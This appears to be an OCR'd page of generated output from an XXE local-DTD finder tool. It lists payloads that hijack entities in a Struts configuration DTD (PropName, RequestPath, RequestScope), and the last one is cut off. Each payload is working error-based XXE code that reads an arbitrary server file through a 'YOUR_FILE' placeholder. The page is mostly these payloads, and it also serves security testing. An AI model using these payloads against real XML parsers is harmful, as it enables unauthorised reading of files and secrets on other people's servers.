**Injectable entity:** `PropName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_4.dtd">

    <!ENTITY % PropName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_4.dtd`

**Injectable entity:** `RequestPath`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_4.dtd">

    <!ENTITY % RequestPath '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_4.dtd`

**Injectable entity:** `RequestScope`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_4.dtd">

    <!ENTITY % RequestScope '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

```